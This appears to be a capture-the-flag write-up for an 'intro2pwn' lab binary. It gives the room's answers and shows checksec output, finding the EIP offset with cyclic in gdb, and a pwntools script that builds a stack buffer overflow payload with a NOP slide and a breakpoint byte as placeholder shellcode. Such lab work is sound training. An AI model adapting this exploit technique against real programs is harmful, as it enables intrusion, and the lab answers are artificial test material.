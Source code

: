 #### Use checksec on intro2pwn final. Is NX enabled?

```bash
checksec intro2pwnFinal
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 10-03-52.png>)

{% hint style="success" %}
`N`
{% endhint %}

#### Please use the cyclic tool and gdb to find the eip. What letter sequence fills the eip?

```bash
gdb -q ./intro2pwnFinal
gdb > run < <(cyclic 100)
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 10-06-42.png>)

{% hint style="success" %}
`taaa`
{% endhint %}

#### Run your exploit with the breakpoint outside of gdb (./intro2pwnFinal < output\_file). What does it say when you hit the breakpoint?

```python
from pwn import *

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd500 + 128)
nop_slide = '\x90' * 1000
shellcode = '\xcc'
print padding + eip + nop_slide + shellcode
```
